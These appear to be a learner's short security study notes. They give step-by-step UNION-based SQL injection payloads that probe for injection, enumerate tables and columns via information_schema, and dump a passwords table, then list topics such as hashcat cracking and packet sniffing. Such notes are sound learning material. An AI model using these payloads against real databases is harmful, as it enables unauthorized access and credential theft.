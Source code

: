# info sec notes

## SQL
use everything after (including) "a' UNION"
* test if injection is possible
    ```sql
    SELECT first_name, last_name FROM user WHERE first_name like '%a' UNION (SELECT 1, 2 FROM dual); -- ';
    ```

* get all tables from database
    ```sql
    SELECT first_name, last_name FROM user WHERE first_name like '%a' UNION (SELECT table_name, table_schema FROM information_schema.tables); -- ';
    ```
* get column names from specific table password, use 2 as placeholde to fill in coumn to union correctly
    ```sql
    SELECT first_name, last_name FROM user WHERE first_name like '%a' UNION (SELECT column_name, 2 FROM information_schema.columns WHERE table_name = 'passwords'); -- ';
    ```

* get passwords from password table
    ```sql
    SELECT first_name, last_name FROM user WHERE first_name like '%a' UNION (SELECT password, 2 FROM passwords); -- ';
    ```

* information_schema table holds information of all tables


**solution: sanitize user input**

todo lean second order injection

## password cracking

* use hashcat
* learn md5, sha-256
* learn bruteforce attack, dictionary attack

## networking

* learn package sniffing
* lean package modification

## bash scripting

* learn bash scripting